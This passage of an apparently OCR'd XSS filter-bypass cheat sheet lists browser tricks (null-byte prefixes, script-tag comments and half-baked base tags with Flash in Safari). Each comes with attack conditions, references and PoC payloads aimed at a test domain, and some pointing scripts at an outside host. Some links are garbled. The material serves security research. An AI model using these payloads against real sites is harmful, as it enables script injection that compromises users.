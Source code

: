 ```
[0x00][0x00][0x00][0x00][0x00][0x00][0x00]<script>alert(1)</script>
```

### `-->`Using comments within script tags (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is a closing tag of the script tag without a line break after it

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=753307

PoC:

[https://vulnerabledoma.in/bypass/text?type=9&q=%3Cscript%3Ealert(1)%0A--%3E](https://vulnerabledoma.in/bypass/text?type=9&q=alert(1) -->)

```
<div><script>alert(1)
--></div><script src=/test.js></script>
```

### Using half-baked base tags (Safari only)

#### Use of Flash

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. immediately followed by whitespace or `'"`after
3. Flash can be used in the target environment

Reference URL:

- https://masatokinugawa.l0.cm/2016/05/xss8.html

PoC:

(if there is no space immediately after) [https://vulnerabledoma.in/bypass/text?type=3&q=%3Cembed%20allowscriptaccess=always%20src=/xss.swf%3E%3Cbase%20href=//l0.cm /](https://vulnerabledoma.in/bypass/text?type=3&q=

```
<div><embed allowscriptaccess=always src=/xss.swf><base href=//l0.cm/</div>
```

(If there is a white space immediately after) [https://vulnerabledoma.in/bypass/text?type=4&q=%3Cembed%20allowscriptaccess=always%20src=/xss.swf%3E%3Cbase%20href=%22//l0 .cm/](https://vulnerabledoma.in/bypass/text?type=4&q=

```
<div> <embed allowscriptaccess=always src=/xss.swf><base href="//l0.cm/ </div><div id="x"></div>
```

#### Using scripts loaded with relative URLs

Conditions for attacking:
